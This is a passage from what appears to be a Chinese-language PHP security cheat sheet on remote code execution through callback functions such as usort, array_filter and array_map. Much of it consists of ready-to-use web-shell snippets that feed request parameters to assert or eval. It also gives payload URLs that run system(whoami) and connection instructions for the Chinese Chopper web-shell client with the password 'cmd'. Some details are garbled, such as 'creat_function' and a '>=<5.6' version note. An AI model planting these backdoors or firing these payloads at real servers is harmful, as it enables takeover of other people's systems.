   * 菜刀连接`http://localhost/123.php?func=assert`   密码：cmd

* call_user_func_array()

* array_filter()

* uasort()

如果页面中存在以上这些函数并且对于用户的输入没有做严格的过滤，那么就可能造成远程命令执行漏洞，除此以外还有其他函数。

* ob_start（）

* unserialize（）

* creat_function（） 

* usort（）

* uasort（）

  * php环境&gt;=&lt;5.6才能用
  * uasort() 使用用户自定义的比较函数对数组中的值进行排序并保持索引关联 。
  *  命令执行：`http://localhost/123.php?1=1&#43;1&amp;2=eval($_GET[cmd])&amp;cmd=system(whoami);_`
  * 菜刀连接：`http://localhost/123.php?1=1&#43;1&amp;2=eval($_POST[cmd])`   密码：cmd
    &lt;?php
        usort($_GET,&#39;asse&#39;.&#39;rt&#39;);
    ?&gt;
  * 

* uksort（）

* array_filter（）

  * ```
    &lt;?php
        $cmd=$_POST[&#39;cmd&#39;];
        $array1=array($cmd);
        $func =$_GET[&#39;func&#39;];
        array_filter($array1,$func);
    ?&gt;
    ```

* array_reduce（）

* array_map（）

  * ```
    &lt;?php
        $func=$_GET[&#39;func&#39;];
        $cmd=$_POST[&#39;cmd&#39;];
        $array[0]=$cmd;
        $new_array=array_map($func,$array);
        echo $new_array;
    ?&gt;
    ```


**直接执行系统命令的代码函数**

* system（）
  * 将字符串作为OS命令执行，自带输出功能
